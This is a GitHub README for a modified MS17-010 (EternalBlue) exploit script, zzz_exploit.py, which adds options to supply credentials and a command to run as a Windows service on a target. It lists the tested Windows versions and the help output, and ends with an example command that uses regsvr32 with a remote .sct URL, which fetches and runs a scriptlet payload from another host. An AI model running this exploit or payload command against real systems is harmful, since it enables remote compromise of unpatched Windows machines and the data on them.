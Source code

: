 # MS17-010_WORAWIT
All credit goes to Worawit: https://github.com/worawit/MS17-010/

This is my personal enhancement to zzz_exploit.py. Added functionality to dynamically pass users, passwords and commands to execute within a service.

This is also heavily inspired by Korey McKinley: https://lmgsecurity.com/manually-exploiting-ms17-010/

Full credit goes to Worawit/Sleepya and Korey McKinley!

## Help page output:
```
➜  MS17-010 git:(master) ✗ ./zzz_exploit.py --help                                                                                        
usage: zzz_exploit.py [-h] [-u] [-p] -t  [-c] [-P] [--version]

Tested versions:
1	Windows 2016 x64
2	Windows 10 Pro Vuild 10240 x64
3	Windows 2012 R2 x64
4	Windows 8.1 x64
5	Windows 2008 R2 SP1 x64
6	Windows 7 SP1 x64
7	Windows 2008 SP1 x64
8	Windows 2003 R2 SP2 x64
9	Windows XP SP2 x64
10	Windows 8.1 x86
11	Windows 7 SP1 x86
12	Windows 2008 SP1 x86
13	Windows 2003 SP2 x86
14	Windows XP SP3 x86
15	Windows 2000 SP4 x86

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       Username to authenticate with
  -p , --password   Password for specified user
  -t , --target     Target for exploitation
  -c , --command    Command to add to service
  -P , --pipe       Command to add to service
  --version         show program's version number and exit
  ```

Example: python zzz_exploit -t 192.168.0.1 -c 'regsvr32 /s /n /u /i:http://192.168.0.1:9000/1EsrjpXH2pWdgd.sct scrobj.dll'
